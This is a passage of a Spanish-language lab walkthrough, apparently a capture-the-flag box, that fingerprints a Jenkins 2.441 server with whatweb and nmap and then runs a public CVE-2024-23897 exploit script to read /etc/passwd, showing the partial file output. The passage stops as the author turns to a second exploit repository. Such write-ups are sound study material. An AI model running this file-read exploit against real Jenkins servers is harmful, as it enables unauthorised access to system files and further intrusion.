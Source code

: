 En el 8080 encontramos Jenkins, un servidor de automatización open source escrito en Java. Podemos hacer un whatweb para ver que hay detrás.
```bash
❯ whatweb http://10.10.11.10:8080
http://10.10.11.10:8080 [200 OK] Cookies[JSESSIONID.2794e409], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.2794e409], IP[10.10.11.10], Jenkins[2.441], Jetty[10.0.18], OpenSearch[/opensearch.xml], Script[application/json,text/javascript], Title[Dashboard [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson-theme,referrer-policy,cross-origin-opener-policy,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

Voy a usar http-enum para enumerar recursos web en el servidor web objetivo. Puede detectar varias apps web, directorios y archivos que podrían encontrarse presentes. Actúa como un pequeño fuzzer, semejante a wfuzz, gobuster, dirbuster...
```bash
❯ nmap --script http-enum -p8080 10.10.11.10 -oN webScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-04 16:02 EDT
Nmap scan report for 10.10.11.10
Host is up (0.13s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /robots.txt: Robots file
|   /api/: Potentially interesting folder
|_  /secured/: Potentially interesting folder (401 Unauthorized)

Nmap done: 1 IP address (1 host up) scanned in 357.86 seconds
```

Voy a probar a clonar este [exploit](https://github.com/h4x0r-dz/CVE-2024-23897) para ver que ocurre.
```bash
❯ python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/passwd
RESPONSE from 10.10.11.10:8080: b'\x00'
❯ python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/passwd
RESPONSE from 10.10.11.10:8080: b'\x00'
❯ python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/passwd
RESPONSE from 10.10.11.10:8080: b'\x00'
❯ python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/passwd
RESPONSE from 10.10.11.10:8080: b'\x00'
❯ python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/passwd
RESPONSE from 10.10.11.10:8080: b'\x00\x00\x00\x00\x01\x08\n\x00\x00\x00K\x08ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n\x00\x00\x00\x1e\x08java -jar jenkins-cli.jar help\x00\x00\x00\n\x08 [COMMAND]\x00\x00\x00\x01\x08\n\x00\x00\x00N\x08Lists all the available commands or a detailed description of single command.\n\x00\x00\x00J\x08 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)\n\x00\x00\x00\x04\x04\x00\x00\x00\x02'

```
Como podemos ver, ejecuto varias veces el script porque aveces lo reporta y otras veces no, pero cuando lo muestra podemos ver el /etc/passwd pero de forma parcial, no lo vemos entero el archivo. 
Voy a probar otro script, en este caso usaré este [repo] (https://github.com/3yujw7njai/CVE-2024-23897.git)
